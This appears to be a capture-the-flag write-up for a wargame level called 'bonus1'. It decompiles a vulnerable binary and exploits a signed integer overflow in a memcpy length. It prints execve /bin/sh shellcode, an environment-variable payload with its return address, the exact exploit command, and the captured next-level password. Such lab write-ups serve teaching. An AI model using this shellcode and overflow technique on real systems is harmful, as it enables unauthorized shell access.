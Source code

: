 get the binary on host
* scp -P 4242 bonus1@192.168.56.107:./bonus1 ./binary/bonus1

decompile using ghidras
```c
int main(int param_1, undefined4 param_2)
{
	int uVar1;
	undefined local_3c [40];
	int local_14;
	
	local_14 = atoi(*(undefined4 *)(param_2 + 4));
	if (local_14 < 10) {
		memcpy(local_3c,*(undefined4 *)(param_2 + 8),local_14 * 4);
		if (local_14 == 1 464 814 662) {
		execl("/bin/sh","sh",0);
		}
		uVar1 = 0;
	}
	else {
		uVar1 = 1;
	}
	return uVar1;
}
```
unsigned int max = 4294967296\
4294967296 / 4  = 1073741824 => memcpy 0;

let's use our global shellcode again\
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

`/tmp/get_env SHELLCODE`\
got `0xbffff82e`


build the payload $(python -c "print 'a' * OFFSET + '\x2e\xf8\xff\xbf'")\
len to cpy is -(1073741824 - 'PRINT_LEN'/4);
* -(1073741824 - (OFFSET + 4) / 4)
* -(1073741823 - OFFSET/4)

It's dichotomy time !
* OFFSET == 56

So the len is `-(1073741823 - 56/4)` = `-(1073741823 - 14)` = `-1073741809`

./bonus1 -1073741809 $(python -c "print 'a' * 56 + '\x2e\xf8\xff\xbf'")
```
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```